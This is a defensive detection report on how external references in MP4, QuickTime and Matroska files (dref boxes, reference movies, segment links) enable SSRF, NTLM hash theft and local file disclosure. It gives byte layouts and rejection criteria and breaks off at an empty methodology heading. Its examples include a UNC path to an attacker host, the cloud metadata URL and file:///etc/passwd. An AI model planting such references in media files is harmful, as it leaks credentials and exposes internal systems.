


# Technical Detection Report: External Data References, SSRF, and Credential Exfiltration in Media Containers

## 1. Executive Summary and Threat Landscape

Although users and system administrators generally treat `.mp4`, `.mov`, and `.mkv` files as self-contained passive documents, multimedia container standards were originally architected with **distributed reference capabilities**: they allow track metadata headers to reside in a local file while instructing the media player or transcoding server to **fetch the actual video/audio frames from a remote URL or external filesystem path**.

When a backend media server (running `FFmpeg`, `GStreamer`, `GPAC`, or `QuickTime` to generate thumbnails or transcode user-uploaded videos) or an analyst's workstation opens a container with active external references, four severe attack vectors emerge:
1. **Server-Side Request Forgery (SSRF — `CWE-918`):** The container embeds a reference to `http://169.254.169.254/latest/meta-data/` (Cloud instance metadata on AWS/GCP/Azure) or internal microservices (`http://127.0.0.1:8080/`), forcing the media processing worker to issue unauthorized internal HTTP requests.
2. **Windows NTLM Hash Theft via SMB (`MITRE ATT&CK T1187`):** Specifying a Universal Naming Convention (UNC) path (`\\attacker.example.com\share\track.mp4` or `file:////attacker.example.com/share/a`) causes Windows hosts to automatically initiate an SMB authentication handshake, leaking the user's or service account's `Net-NTLMv2` hash to the attacker's listener.
3. **Local File Disclosure / Path Traversal (`CWE-22` / `CWE-200`):** Referencing `file:///etc/passwd` or relative paths `../../../../etc/hostname` combined with subtitle or text tracks can cause sensitive local files on a transcoding server to be rendered visibly into the output video frames returned to the attacker.
4. **Forensic Canary / Tracking Beacons:** Confirming when, from which IP address, and with which media library `User-Agent` (e.g., `Lavf/60.3.100`, `VLC/3.0.20`) a victim or malware analyst opened the video file.

---

## 2. Grounding in Official Format Specifications

### 2.1. ISO Base Media File Format (`ISO/IEC 14496-12` — `dinf` and `dref` Boxes)
According to Clause 8.7.2 (*Data Reference Box*) of `ISO/IEC 14496-12`:
- Every media track (`trak` $\rightarrow$ `mdia` $\rightarrow$ `minf`) must contain a `dinf` (*Data Information Box*), which encloses a `dref` (*Data Reference Box*).
- The `dref` box is a `FullBox` containing an `entry_count` (`u32 BE`) followed by `url ` (`DataEntryUrlBox`) or `urn ` (`DataEntryUrnBox`) child boxes (as well as Macintosh Alias `alis` boxes in QuickTime `.mov` files).
- Each `url ` or `urn ` entry is itself a `FullBox` with a 1-byte `version` field and a 24-bit (3-byte) `flags` field:
  - **The Self-Contained Flag (`flags & 0x000001`):**
    - If `flags == 0x000001` (*Self-Contained Flag* set): the track's media data resides within the **same file** that contains the `moov` box, and the payload of the `url ` box is empty (total box size is exactly 12 bytes).
    - If `(flags & 0x000001) == 0`: **the media data resides in an external location**, and the payload of the box contains a null-terminated (`\0`) UTF-8 string specifying the external URI or filesystem path.

### 2.2. Apple QuickTime File Format (`rmra` / `rmda` / `rdrf` Reference Movies)
In addition to `dref`, the QuickTime specification defines Reference Movie atoms (`rmra` $\rightarrow$ `rmda` $\rightarrow$ `rdrf`, *Reference Movie Data Reference Atom*), which store a reference type (`"url "` or `"alis"`) and a target network URL or file path.

### 2.3. Matroska (`IETF RFC 8794` / Matroska Spec — Segment Linking)
Within the `Info` (`0x1549A966`) master element of a Matroska `Segment`, the standard defines:
- `NextFilename` (`0x3E83BB`), `PrevFilename` (`0x3C83AB`), and `SegmentFilename` (`0x7384`).
- These UTF-8 string elements instruct compliant players to automatically open and chain external files from the local directory or network shares during playback.

---

## 3. Binary Anatomy: Compliant Self-Contained `dref` vs. Malicious External `dref`

### Exact Byte Layout of a `dref` Box (`ISO/IEC 14496-12`)

| Relative Offset in `dref` | Field | Size | Value in Safe Video | Value in External Reference Attack |
| :---: | :--- | :---: | :--- | :--- |
| `0x00 .. 0x03` | `dref.size` | 4B BE | `0x0000001C` (28 bytes) | `> 28` bytes |
| `0x04 .. 0x07` | `dref.type` | 4B ASCII | `"dref"` | `"dref"` |
| `0x08 .. 0x0B` | `dref.version_flags` | 4B BE | `0x00000000` | `0x00000000` |
| `0x0C .. 0x0F` | `dref.entry_count` | 4B BE | `0x00000001` | $\ge 1$ |
| `0x10 .. 0x13` | `entry[0].size` | 4B BE | `0x0000000C` (12 bytes) | `12 + strlen(uri) + 1` |
| `0x14 .. 0x17` | `entry[0].type` | 4B ASCII | `"url "` | `"url "` / `"urn "` / `"alis"` |
| `0x18 .. 0x1B` | `entry[0].version_flags` | 4B BE | **`0x00000001`** *(Local)* | **`0x00000000`** *(External)* |
| `0x1C .. end` | `entry[0].location` | Variable | *(None)* | `"http://..."` / `"\\\\..."` / `"file://..."` |

---

## 4. Threat Evaluation and Classification Criteria

Under a Zero-Trust media security posture, **every ingested video container must be 100% self-contained**. Extracted external references are classified as follows:

1. **Critical Severity (`Severity 2` — Immediate Rejection):**
   - Any `dref` entry (`url `/`urn `) with the self-contained bit cleared (`(flags & 0x000001) == 0`) and a non-empty payload.
   - Presence of network or filesystem URI schemes: `http://`, `https://`, `ftp://`, `rtsp://`, `rtmp://`, `mms://`, `file://`, `smb://`.
   - Windows UNC network paths starting with `\\` or `//`.
   - Directory traversal sequences (`../` or `..\`) or absolute filesystem paths (`/etc/...`, `C:\...`) in `dref`, `rdrf`, `NextFilename`, or `PrevFilename`.
2. **Warning Severity (`Severity 1`):**
   - Plain relative filenames in Matroska `NextFilename` / `PrevFilename` lacking URI schemes or path separators (e.g., `"part2.mkv"`), which must be stripped during container remuxing.

---

## 5. Algorithmic Verification Methodology

